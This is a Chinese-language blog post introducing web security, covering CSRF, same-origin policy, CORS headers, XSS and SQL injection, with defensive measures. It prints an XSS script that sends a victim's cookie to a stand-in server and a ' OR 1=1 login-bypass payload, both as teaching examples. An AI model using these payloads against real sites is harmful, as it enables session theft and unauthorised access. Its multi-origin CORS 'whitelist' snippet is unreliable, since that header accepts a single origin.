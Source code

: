 ```yaml
---
title: (技術)惡意攻擊與網頁資安
tags:
    - CSRF
    - XSS
    - Same-Origin Policy
    - SQL injection
author: Boris Chien
categories:
    - Security
abbrlink: 19592
date: 2023-03-18 11:24:03
top_img: false
cover: images/webSecurity/cover.webp
---
```


## 被黑客攻擊的慘痛經驗

{% note danger no-icon %}
未踏入軟體開發領域前，曾經歷兩次黑客攻擊事件，第一次是高中時，大名鼎鼎的臉書釣魚連結，國中好友私訊我，標題是，我不敢相信這是你，好奇心驅使下，打開就立刻跳轉到奇怪的頁面，雖然馬上關掉並且改密碼，但隔天還是收到大量親朋好友通知，說帳號散播奇怪的廣告連結，只能逐一道歉解釋。
第二次是大學時，瘋迷一款手機生存遊戲，雖然小眾並且主題冷門，但可玩性高，當時跟朋友打副本，突然收到其他玩家私訊，威脅說不給寶物就要封鎖我帳號，當時並不理會，直到隔天登入發現帳號被鎖，該遊戲是P2P架構，人物的攻擊力、屬性、道具資料均儲存在客戶端，又作為伺服器運算，即便沒有相關知識，也能透過暴力嘗試+手機修改器肆意修改數值。
{% endnote %}



## 資安

程式開發中，須兼顧維護、擴展、可測試、以及最重要的安全性，防止各類型資安攻擊，前端、後端、雲端、資料庫相互配合，使用最新的安全技術和漏洞掃描工具、對敏感數據進行加密、設置良好的權限控制和訪問控制、監控和記錄系統事件等等，保障系統和用戶的資安

## 攻擊類型

> -   惡意軟體
> -   網路釣魚
> -   中間人
> -   阻斷服務
> -   SQL 注入
> -   APT 攻擊（進階持續性威脅）
> -   零時差攻擊
> -   跨網站指令碼攻擊（XSS）

[Day 4 : 觀念篇 - 常見的資安攻擊類型有哪些？](https://ithelp.ithome.com.tw/articles/10293786)

## 跨站請求偽造 CSRF

簡單來說:有人偽造使用者身分去做壞事

伺服器認證，大多透過 Request 資訊判斷，無法確認來源是否為本人，這也是多因素驗證漸漸取代單一驗證原因之一。

當使用者已經登入了一個網站並開啟 session，攻擊者就可以利用 CSRF 攻擊來在使用者不知情的情況下，以使用者的名義向該網站發出各種請求，例如發送電子郵件、張貼消息、轉賬等，以達到攻擊者的目的。

攻擊者可以在網站上放置一個假的表單，這個表單的 action 指向受害者網站的某個操作，當受害者登入該網站後點擊假表單時，請求就會被發送，伺服器無法區分這個請求是由攻擊者還是受害者發出的，就會執行相應的操作。

## 網頁防護

* 隨機 token，在表單提交 token 確認請求的合法性，這樣攻擊者就無法通過假表單來進行攻擊。

* Referrer Policy，限制來自外部網站的請求，避免攻擊者通過 Referer 欄位來進行攻擊。

* 驗證機制，例如 Captcha，讓攻擊者無法自動化地提交假表單。

* 避免 GET 請求中傳遞敏感數據，將其改為 POST 請求或加密來保護數據。

* 敏感數據保存在服務端，並通過 Session Id 或其他方式進行身份驗證。

* Middleware，檢查和過濾 HTTP 請求。XSS，SQL 注入，跨站請求偽造，點擊劫持攻擊

## 同源策略 Same-Origin Policy

網頁調用第三方服務，基於安全性，會限制非同源網域請求。在網站 A 的前端中發送了請求到網站 B，瀏覽器會阻止該請求並報告 CORS 錯誤。避免跨站點請求偽造 (CSRF) 或跨點腳本 (XSS)。
瀏覽器使用同源策略來防止跨域請求，只允許訪問屬於同一個源。如果需要向其他源的資源發送請求，可以使用跨域資源共享（CORS）。

## 跨域資源共享

瀏覽器與伺服器配合，才能實現跨域請求。

### CORS

跨域資源共享是一種標準的瀏覽器機制，它使用額外的 HTTP header 來告訴瀏覽器哪些源是被允許的。當瀏覽器發送跨域請求時，伺服器可以在回應中設置相應的 CORS header，告訴瀏覽器是否允許跨域請求，允許請求方法、頭部等。在前端代碼中，可以使用 XMLHttpRequest 或 Fetch API 等方式發送跨域請求，瀏覽器會自動處理 CORS 機制。


### 伺服器回應

{% codeblock lang:php %}
header('Access-Control-Allow-Origin: https://example.com');
{% endcodeblock %}

白名單
{% codeblock lang:php %}
header('Access-Control-Allow-Origin: https://example.com, https://example.org');
{% endcodeblock %}

2.特定方法
{% codeblock lang:php %}
header('Access-Control-Allow-Methods: GET, POST, PUT, DELETE');
{% endcodeblock %}

3.特定 headers
{% codeblock lang:php %}
header('Access-Control-Allow-Headers: Origin, Content-Type, Accept');
{% endcodeblock %}

4.禁用憑證

{% codeblock lang:php %}
header('Access-Control-Allow-Credentials: false');
{% endcodeblock %}

5.請求數量限制
{% codeblock lang:php %}
header('Access-Control-Max-Age: 3600');
{% endcodeblock %}

## XSS

> 惡意使用者將程式碼注入到網頁上，其他使用者在觀看網頁時就會受到影響。這類攻擊通常包含了 HTML 以及瀏覽器語言。

[XSS 攻擊](https://zh.wikipedia.org/zh-tw/%E8%B7%A8%E7%B6%B2%E7%AB%99%E6%8C%87%E4%BB%A4%E7%A2%BC)
{% codeblock lang:js %}

<script>
var i = new Image();
i.src = "http://yourserver.com/log.php?cookie=" + document.cookie;
</script>

{% endcodeblock %}

SRC 設置為攜帶用戶 cookie 信息的 URL。當瀏覽器加載圖像時，發送 HTTP 請求到攻擊者的服務器，夾帶受害者 cookie。攻擊者可以在伺服器記錄 cookie，用於進一步攻擊。

* 輸入驗證和過濾：在用戶輸入數據之前對其進行驗證和過濾。可以使用一些現成的庫，如 DOMPurify 和 XSS 庫來進行輸入驗證和過濾。這可以幫助防止用戶在輸入中包含惡意腳本。

* 轉義輸出：在將用戶輸入數據渲染到頁面上之前，應將其進行轉義。防止惡意腳本在頁面上執行。例如，將所有特殊字符（如<、>和&）轉換為它們的 HTML 實體編碼（如<、>和&）。

* Content Security Policy（CSP）：指定來源加載資源。使用 CSP 可以幫助防止惡意腳本的注入和執行。例如，可以設置策略，禁止加載來外源腳本或樣式表。

* 設置 HTTP-only Cookie：設置 Cookie 為 HTTP-only。防止 XSS 攻擊者在用戶瀏覽器中竊取 Cookie。


## SQL injection

> SQL 隱碼或 SQL 注碼，是發生於應用程式與資料庫層的安全漏洞。簡而言之，是在輸入的字串之中夾帶 SQL 指令，在設計不良的程式當中忽略了字元檢查，那麼這些夾帶進去的惡意指令就會被資料庫伺服器誤認為是正常的 SQL 指令而執行，因此遭到破壞或是入侵

[SQL 注入](https://zh.wikipedia.org/zh-tw/SQL%E6%B3%A8%E5%85%A5)

users 表

```
users
------------------
id | username | password
------------------
1  | Alice    | pass123
2  | Bob      | 12345
3  | Charlie  | qwerty
```

表單
{% codeblock lang:html %}

<form method="POST" action="login.php">
  <label for="username">Username:</label>
  <input type="text" id="username" name="username">
  <br>
  <label for="password">Password:</label>
  <input type="password" id="password" name="password">
  <br>
  <input type="submit" value="Login">
</form>
{% endcodeblock %}

惡意 SQL
{% codeblock lang:sql %}
' OR 1=1;--
{% endcodeblock %}

SQL 變成
{% codeblock lang:sql %}
SELECT \* FROM users WHERE username='' OR 1=1;--' AND password=''
{% endcodeblock %}

users 全部選出
{% codeblock lang:sql %}
SELECT \* FROM users
{% endcodeblock %}

## 總結

* 前端，輸入驗證、過濾、清洗、轉義。

* 後端，身份驗證和授權，過濾非法、未授權請求。

* 雲端，防止惡意流量。

